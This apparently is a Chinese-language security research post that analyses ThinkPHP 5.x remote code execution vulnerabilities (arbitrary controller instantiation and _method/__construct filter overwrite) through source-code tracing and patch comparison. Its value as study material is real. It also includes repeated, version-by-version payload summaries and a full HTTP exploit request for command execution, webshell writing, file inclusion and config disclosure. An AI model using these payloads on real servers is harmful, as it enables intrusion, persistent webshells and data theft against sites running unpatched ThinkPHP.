




0x00 启
黑盒debug开启会报错出具体版本
白盒看本地tp代码
tp3 在目录的ThinkPHP文件中
TP5.0在目录的base.php文件中 : thinkphp/base.php
TP5.1: thinkphp/library/think/App.php
0x01 ThinkPHP 2.x 命令执行
PHP5的preg_replace的/e模式的命令执行
preg_replace('正则规则','替换字符','目标字符')
正则规则使用e修饰时，如果从目标字符匹配到正则规则，那么替换字符的php语句就会执行这个分析过程参考这篇文章即可，实战几乎没遇见过TP2，以后有空再分析吧：https://www.freebuf.com/articles/people/223149.html
0x02 ThinkPHP 5.x 命令执行（兼容模式支持实例化任意控制器导致RCE）
1.影响版本
ThinkPHP v5.0.x <=x<= 5.0.22
ThinkPHP v5.1.x <=x<= 5.1.30
patch方式：
添加正则判断controller名
https://github.com/top-think/framework/commit/b797d72352e6b4eb0e11b6bc2a2ef25907b7756f
5.0
https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815
5.1
2.漏洞分析
本地调试环境版本为5.0.22
补丁判断了控制器只允许有字母数字
先跟一下5.0.22的$controller都做了什么
访问index.php
- 因为没有传入控制器，默认的控制器是Index
- 默认配置$convert为true，会将控制器名小写处理

分析流程：
- 进入下方的parseName静态方法
- 做的是名称风格转换，就是驼峰、首字母大写和蛇形的编码名称的转换，不是核心问题

- 进入下方的操作$controller变量的位置，跟入Loader的controller静态方法
- 看注释发现是实例化控制器的，传入的形参为$name，跟入下方的getModuleAndClass静态方法
- 两个if，第一个判断传入的控制器名字是否包含’\‘字符，不包含的话会走下面的else，下面会判断是否存在’/‘字符，存在会按照’/'字符分割返回。
- 跟入下方赋值module和$name（控制器名称）
关注下下面做了什么
- 替换name中的/和. 再按照字符划分为数组
- parseName我们上面分析过，是做名称转换的（驼峰、首字母大写和蛇形），返回数组最后一个元素
- 根据配置，看后缀是否配置，将后缀拼接到$class名字中
- 将去掉最后元素的原始数组拼接回字符
返回值：返回命名空间+模块+层名+类名+类名后缀
最终返回数组
- 回到上面的loader的静态方法controller中，获取返回值后，会调用invokeClass方法，这个看起来就是实例化类的方法， 跟入
果然是反射实例化类
- 实例化后，发现还会获取当前的action参数，并调用实例化类的对应方法
这里的action与上面的controller获取方式类似
整个功能就跟完了，我们发现最后是实例化命名空间类，并调用了对应的方法，盲猜一下这是一个可以实例化任意方法的漏洞， 我们跟一下传入的参数是不是可控，返回命名空间和方法的参数是否可以调用到我们想实现的方法。
传入的action为传入instance参数，跟一下这个值的产生即可，
利用流程：
- 看回分析流程的第2步，result切割数组的第二个元素，跟入第3步方法，返回值取决于这个$class值
- 重点在getModuleAndClass静态方法，关注返回的$class。
看回分析流程的第4步，$class的赋值只有两处：
- 第一处逻辑是如果name中包含\，直接返回name做class
- 第二处的逻辑我们在第5步分析了，返回值是拼接的，且开头的命名空间为App::$namespace，限制较高
这样来看我们要让传入的name参数包含\，name实际上就是我们最开始获取的$controller方法
分析后就很简单了
我们传入的格式是：模块/控制器/操作，控制器这里我们要传入字符包含\，这样最终处理后就能直接初始化我们想要的class。而\在tp有额外的”命名空间的含义“，这样也就达成了可以初始化任意类的目的
我们先测试传入index/a\b/1
发现无法解析\，服务端当作了/处理
但是tp默认支持多种路由方式，可以使用参数的形式传入
接下来改一下传参方式：http://tp5022.com/index.php/?s=index/a\b/发现果然如我们所料，class名称我们现在可控了。

我们找一下内部存在的类测试一下：/index/think\app/index
发现类成功进行了初始化，爆错提示方法不存在而已
这个漏洞到此也就分析成功，内部逻辑缺陷，导致可以用命名空间的方式来调用任意类的任意方法。
至于为什么ThinkPHP可以使用命名空间直接实例化，可以看这篇文章：
https://segmentfault.com/a/1190000020172925
简单总结就是：正常我们需要include，然后才能尝试实例化，而在tp中，实例化是有如下流程的：
文中也举例了（如下图），实际上TP默认维护了绑定映射关系，think就是一个根命名空间，其对应的初始命名空间目录就是系统的类库目录（thinkphp/library/think）
3.漏洞利用
经过上面的分析，依托TP的命名空间和自动类加载的机制，我们已经获取了实例化任意类的入口，接下来就是看一下TP框架本身哪些方法可以被利用了。
3.1遇见问题
我们在tp找到了一个文件写入类，命名空间应该为：\think\template\driver\File
使用payload打一下发现提示控制器不存在，观察一下， 发现控制器的file变成了小写，难怪找不到这个File类
分析了一下相关大小写相关代码
- 发现最初获取控制器名就会转换成小写。
配置里的url_convert还为true，默认就会转成小写。
- 上面提到的tp会根据命名空间自动寻找对应的类，
\think\Loader::autoload
其中有一段非Win环境不严格区分大小写，是windows无法走到下面的include，也就没办法包含到文件

3.2漏洞利用总结
TP 5.0.x <=version<= 5.0.22
由上面的问题，简单跟了一下发现在windows环境下自动加载类根本无法加载到想要类文件，所以只能找框架初始化的时候就已经加载的类。
在Linux一样如此，处理小写的控制器，拼接文件名还是小写，虽然走到了下面的include，但是因为Linux文件名区分大小写，无法包含到。
think\Route
think\Config
think\Error
think\App
think\Request
think\Hook
think\Env
think\Lang
think\Log
think\Loader发现可以执行任意方法，且可以执行带参数的方法。
最终可用payload：
s=/index/\think\app/invokefunction&function=var_dump&vars[0]=123123 # 打印的方式检测漏洞
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell1213.php&vars[1][]=123123 # 文件写入
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg # 包含任意文件
?s=index/\think\Config/load&file=../../t.php # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id #执行系统命令TP 5.1.x <=version<= 5.1.30
5.1的具体漏洞分析流程就不分析了，大致与5.0相似，虽然相似度不高，但是直接往下跟控制器的赋值就行了
上面5.0遇到的问题，在5.1存在吗？看一下两处的代码：
- 获取控制器部分
默认对获取的值也是会小写的
- 类自动加载部分
逻辑与5.0相同，写法，但还是无法加载

只能寻找初始化时已经加载（include）的类
think\Loader
Composer\Autoload\ComposerStaticInit289837ff5d5ea8a00f5cc97a07c04561
think\Error
think\Container
think\App
think\Env
think\Config
think\Hook
think\Facade
think\facade\Env
env
think\Db
think\Lang
think\Request
think\Log
think\log\driver\File
think\facade\Route
route
think\Route
think\route\Rule
think\route\RuleGroup
think\route\Domain
think\route\RuleItem
think\route\RuleName
think\route\Dispatch
think\route\dispatch\Url
think\route\dispatch\Module
think\Middleware
think\Cookie
think\View
think\view\driver\Think
think\Template
think\template\driver\File
think\Session
think\Debug
think\Cache
think\cache\Driver
think\cache\driver\File发现**\think\template\driver\File**类在5.1已经在初始化时就已经加载，所以可以使用。
可用payload：
?s=index/\think\Request/input&filter[]=system&data=whomai # callback回调
?s=index/\think\view\driver\Think/display&template=<?php phpinfo();?> #shell生成在runtime/temp/md5(template).php
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?> # 写文件
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id # 命令执行
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id # 命令执行4.Payload汇总
TP 5.0
s=/index/\think\app/invokefunction&function=var_dump&vars[0]=123123 # 打印的方式检测漏洞
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell1213.php&vars[1][]=123123 # 文件写入
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg # 包含任意文件
?s=index/\think\Config/load&file=../../t.php # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id #执行系统命令TP 5.1
?s=index/\think\Request/input&filter[]=system&data=whomai # callback回调
?s=index/\think\view\driver\Think/display&template=<?php phpinfo();?> #shell生成在runtime/temp/md5(template).php
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?> # 写文件
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id # 命令执行
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id # 命令执行0x03 ThinkPHP 5.x命令执行（method任意调用方法导致RCE）
1.影响版本
ThinkPHP v5.0.x <=x<= 5.0.23
ThinkPHP v5.1.x <=x<= 5.1.32
看一下patch：
简单分析了下，发现对POST参数进行了白名单判断，限定了POST获取的var_method参数。
2.漏洞分析
通过上面的分析，很容易想到利用方式：
- method从POST参数获取并转为大写（PHP的函数是不区分大小写的，所以转大写也无所谓了）
- 接下来会调用Request类的对应方法，参数为POST参数
只要找Request类中可以被利用的方法（方法参数只能有1个）就可以了。
找了一圈发现不存在直接利用的，发现有一个可以覆盖任意属性的__contruct方法
接下来的思路就是寻找TP框架接收参数或者处理路由的时候是否会调用Request的参数了，这样的话我们就能利用此类赋值恶意属性，达成利用效果了。
但在开始之前，我们先简单跟一下，如何可以触发最开始的diff的位置
Request是TP处理请求的类，只要发起请求就会触发到此类，method是处理路由的方法，所以很容易触发diff位置。
接下来就是寻找可能利用Request中恶意参数的位置了，大致的挖掘思路如下：
- 从TP的入口开始跟，发现调用Request的方法就跟进去
- 然后再看方法可不可以进行恶意利用（写文件，callback执行等），
- 最后看参数是否可控
-
入口点为APP 的run静态方法
-
跟入param方法，request变量为初始化的Request类对象
-
跟入方法，发现method方法，继续跟入
- 参数为true，会调用到server方法
- 调用server方法，跟入其中的input方法
- 看一下其中的filterValue方法
- 发现callback触发点
利用流程已经整理好了，要完成完整的利用链，还要考虑两点：
-
- 整个过程中的if条件都能符合吗？
-
- 还有没有其他的调用最初param方法的位置？
2.1遇见问题（需要开启debug的利用链）
我们看回漏洞分析2步骤的if逻辑，看一下debug的静态属性是什么含义。
分析了一下该变量就是系统debug配置，类调用run方法时会进行属性的初始化。
也就是说，我们想触发上面的调用链，第一个if条件就要符合，也就是说系统需要开启debug模式才行。
先调通Payload，在链条中找到可被赋值的Request的属性

现在可以POST传参对类的filter属性赋值了，$filter也就是callback中调用的函数
接下来就是callback的函数参数的值了，在这里就是filterValue函数的$data参数了，找一下赋值的地方。
跟回去赋值$data的地方，发现也是Request类的属性，所以一样可以使用上面的方式
我们使用server变量赋值，走到filterValue函数上面的if逻辑，发现无法满足这个if，会直接return，无法触发上面的filterValue函数
if (isset($data[$val])) 输入的参数还要满足如下逻辑，才不会return，这里的data是我们赋值的server变量，解决办法也很简单，我们传入一个输入，满足存在$val键值即可。
也就是server[REQUEST_METHOD]=12312
完成利用
2.2不开启Debug情况下的利用链
上面也简单提到过，既然没有开启debug，我们就要寻找其他的漏洞触发点
- 在App类的方法寻找， 发现其中有调用param方法的位置。
- 反向往回跟，跟invokeMethod方法
- 反向跟module方法
- 找到exec方法
- 最终找到触发点，实际上就在我们上面分析的debug下面的位置
- 找到完整触发链，接下来就是找callback的函数的参数，尽量做到可控
$filter变量和上面debug那条相同，是获取的this属性，可以使用construct方式对filter属性赋值。

vars，赋值在上面，其实获取的是所有的post参数
最终callback递归调用filterValue，$data数据键值是我们post的data
最终也会使用callback调用我们传的参数，完成整条链的调用
aaaaa=calc&_method=__construct&filter[]=system我们使用网上的payload做调试的时候，使用calc可能发现弹出来很多个计算器，原因其实也在我们上面的分析过程：
param是三个参数获取拼接的，我们callback调用是循环调用，filter和参数都是笛卡尔积执行的，最终执行的时候也就执行了calc。

3. 不同版本的Payload区别分析
TP 5.0.0<=version<=5.0.7
我们上面调试的payload是5.0.12版本的，使用的payload是aaaaa=calc&_method=__construct&filter[]=system
在5.0.7使用上面分析的payload，开启debug分析一下，发现会报错。
对比一下tp5.0.7的代码，发现method值的部分
跟进去，这里的方法在我们上面已经分析过了，是漏洞的触发点，会走到第一个框内的逻辑，然后传入construct对Request类的属性进行覆盖。我们看一下函数的返回值，发现返回的this->method，我们上面已经可以进行覆盖了，所以这里可以选择在post body中覆盖method，这样就不会数组越界了。
rules数组存在如下key值，保证不越界即可。
因此随便选择一个值赋值即可。
最终payload:
aaaaa=calc&_method=__construct&filter[]=system&method=name
TP 5.0.8<=version<=5.0.12
这个我们最初的例子就是5.0.12的，因此不过多赘述。
TP 5.0.13<=version<= 5.1.16
搭起来5.0.14的环境，使用5.0.12的payload，debug看一下过程
发现最终触发点的$filter没有赋值到。

看一下5.0.13和5.0.5的diff
在上面的漏洞分析流程中，找到可能更新了filter的地方。如下图，更新了filter。

在对应位置打个断点，此时我们传入的filter已经覆盖为Request类的filter属性
这个方法跟入就是覆盖filter的方法。而参数$config[‘default_filter’]为空，也就将我们传入的system覆盖为空了，也就导致无法执行5.0.12版本的payload。
那么想办法让逻辑不进入图中的方法，寻找其他触发点：
- 我们上面分析过，当开启debug时，可以走另一套触发逻辑。
- 寻找其他触发位置，且触发位置不能在上面的module方法后面，必须在前面
我们寻找一下上面的module方法。是一套switch逻辑，我们看一下能否走入controller和method逻辑

图中的是ThinkPHP不同的路由方式，具体如下：https://www.kancloud.cn/manual/thinkphp5/118037
我们要进入的是方法3和方法4，接下来就是寻找TP代码在定义路由时，是否有对应的定义方式。
看一下TP完整版的composer配置，发现会自动安装很多模块。(为了漏洞复现的话，也可以直接配置"topthink/think-captcha": “^1.0”)
TP在初始化时，存在自动类加载机制，将 vendor 目录下的文件加载，因此会存在captcha路由。（完整版会默认存在此路由）
下图中我们发现注册了一个get的、路由到类的方法，符合我们的漏洞触发点。
POST /?s=/captcha&XDEBUG_SESSION_START=18306 HTTP/1.1
Host: tp5014
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
aaaaa=calc&_method=__construct&filter[]=system&method=name我们拿上面分析好payload加上captcha路由测试一下，测试后发现没有成功，我们回到定义路由的地方发现路由定义的是get方式，因此无法找到最终的定义规则很正常。我们跟回代码。
这里的rule数据包含着路由规则，get存储着我们想利用的captcha路由，这里与上面的思路类似，$method是可控的，因此把他修改为get就可以了
TP 5.1.17<= version <= 5.1.32
高版本的代码有变化， 低版本可以使用construct调用方法，高版本直接改成赋值了。
也就是说，我们无法对Request类的任意属性进行覆盖了。
开一下debug，发现提示无键值。
找到触发位置，这里与上面调试遇见的问题类似，不过这里无法进行覆盖了。
理论中的利用方法
https://www.cnblogs.com/iamstudy/articles/thinkphp_5_x_rce_1.html
这篇文章提出了一个理论方法，但是本地未复现出，实战意义也有限，仅当拓展。
4.Payload汇总
TP 5.0.0<=V<=5.0.7
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoamiPOST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
//写shellTP 5.0.8<=V<=5.0.12
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filterPOST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
//写shellTP 5.0.13<=V<= 5.1.16
需要开启debug：
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filterPOST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
// 写shell完整版存在captcha路由的情况：
POST ?s=captcha
aaaa=calc&_method=__construct&filter[]=system&method=getTP 5.1.17<= V<= 5.1.32
理论的利用方法：（未验证过）
POST /
c=exec&f=calc.exe&_method=filter参考链接
https://todis21.github.io/2023/07/08/ThinkPHP-代码审计/
https://www.cnblogs.com/lingzhisec/p/15728886.html
https://y4er.com/posts/thinkphp5-rce/
https://www.cnblogs.com/wkzb/p/14156026.html
https://www.cnblogs.com/iamstudy/articles/thinkphp_5_x_rce_1.html